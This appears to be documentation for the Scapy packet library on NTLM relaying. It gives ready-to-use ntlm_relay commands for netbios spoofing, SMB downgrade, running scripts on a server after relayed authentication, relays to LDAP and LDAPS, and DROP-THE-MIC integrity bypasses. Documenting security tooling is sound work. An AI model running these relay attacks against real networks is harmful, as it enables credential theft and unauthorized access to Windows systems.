







NTLM
====

Scapy provides dissection & build methods for NTLM and other Windows mechanisms.
In particular, the ``ntlm_relay`` command allows to perform some NTLM relaying attacks.

.. note::

    Read `this article from hackndo <https://en.hackndo.com/ntlm-relay/>`_ to understand how NTLM relay work and what we are trying to achieve here.

Examples
--------

**Requirement: Answer to all netbios requests with the local IP**

.. code::

    netbios_announce(iface="virbr0")

SMB <-> SMB: SMB relay with force downgrade to SMB1
___________________________________________________

.. note::

    ``server_kwargs={"REAL_HOSTNAME":"WIN1"}`` is compulsory on SMB1 if the name that you are spoofing is different from the real name. Set this to avoid getting a ``STATUS_DUPLICATE_NAME``

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"})

SMB <-> SMB: Perform a SMB2 relay - default
___________________________________________

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0")

.. warning::

    The legitimate client will the validity of the negotiated flags by using a signed IOCTL ``FSCTL_VALIDATE_NEGOTIATE_INFO`` which we cannot fake, therefore losing the connection.
    We however still have created an authenticated illegitimate client to the server, where we won't be performing that check, that we can use. See the case right below.

SMB <-> SMB: Perform a SMB2 relay - scripted
____________________________________________

Because of the note above, we now close the legitimate client & run commands on the server directly.

.. note::

    Setting ``ECHO`` to ``False`` on the server instantly terminates the connection once Authentication is successful.
    We set ``RUN_SCRIPT`` to ``True`` to run a script (in ``DO_RUN_SCRIPT`` in the automaton) once Authentication is successful. Note that ``REAL_HOSTNAME`` is required in this case.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", server_kwargs={"ECHO": False}, client_kwargs={"REAL_HOSTNAME": "WIN1", "RUN_SCRIPT": True})

SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop NEGOEX
_________________________________________________________________

This example points out that the NEGOEX messages are optional: dropping them has no effect on the SMB1 connection.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"PASS_NEGOEX": False, "REAL_HOSTNAME":"WIN1"})

SMB <-> SMB: SMB relay with force downgrade to SMB1 & drop extended security
____________________________________________________________________________

This probably won't work. SMB1 clients abort unextended connections these days.

.. code::

    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_SMB_Client, iface="virbr0", ALLOW_SMB2=False, server_kwargs={"REAL_HOSTNAME":"WIN1"}, DROP_EXTENDED_SECURITY=True)

SMB2 <-> LDAP: relay SMB's NTLM to an LDAP server
_________________________________________________

.. note::

    Negotiating LDAP using SMB's credentials does work, but sets the ``SIGN`` field during the NTLM exchange. This causes LDAP to require signing. Read `the HackNDo article <https://en.hackndo.com/ntlm-relay/>` for more info.

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0")

Let's try using DROP-THE-MIC-v1 or DROP-THE-MIC-v2:

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0", DROP_MIC_v1=True)

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAP_Client, iface="virbr0", DROP_MIC_v2=True)

SMB2 <-> LDAPS: relay SMB's NTLM to an LDAPS server
___________________________________________________

.. code::

    load_layer("ldap")
    ntlm_relay(NTLM_SMB_Server, "192.168.122.156", NTLM_LDAPS_Client, iface="virbr0")

